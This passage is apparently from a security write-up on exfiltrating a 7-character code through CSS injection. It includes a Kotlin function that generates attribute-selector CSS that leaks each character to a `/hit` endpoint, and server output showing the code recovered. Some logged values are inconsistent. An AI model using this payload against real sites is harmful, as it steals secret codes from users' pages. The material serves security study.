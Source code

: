 I came across with a Medium [post](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b) with a great proof of concept about how we can use a chain of `@import` and delay the response until we know what is the first char. We then return the first `@import` containing another `@import` and the payload for the second char and so on. It sounded epic. I decided to code my own.

It didn't work... The second request never came. I should have know by know that the code was only one digit.

I tried another selector. `input[name$=%s]`. This is an ends-with instead of starts-with. The result for starts-with and ends-with returned the same character. Af first I was like "Okay, what are the odds right? The code starts and ends with the same char.". Until I tried it again...and again... and eventually got it. They do not start and end with the same char. They have only one char... Oh my god. It's easier and I over engineered the whole thing.

Back to Kotlin, I've updated my `generateExfilPayload` method to return the following:

```kotlin
const val codeSize = 7
//...
private fun generateExfilPayload(): String {
    val singleExfilPayload = """
        input[name=code_%d][value='%s'] {
            background:url(/hit?char=%s&position=%d);
        }
        
    """.trimIndent()

    val builder = StringBuilder()

    for (i in 1..codeSize)
        for (char in allowedChars.toCharArray()) {
            builder.append(singleExfilPayload.format(i, char, char, i))
        }

    return builder.toString()
}
```

This basically creates a CSS page that contains 7 blocks of 61 `input[name=code_%d][value='%s']`. One for each char and each input.

Firing up the server and sending the URL again:

```
Got a new hit - p
Current value - p
Got a new hit - Z
Current value - pZ
Got a new hit - Z
Current value - pZZ
Got a new hit - z
Current value - pzZZ
Got a new hit - 3
Current value - pzZ3Z
Got a new hit - Z
Current value - pzZ3ZZ
Got a new hit - D
Current value - pzZ3ZDZ
```
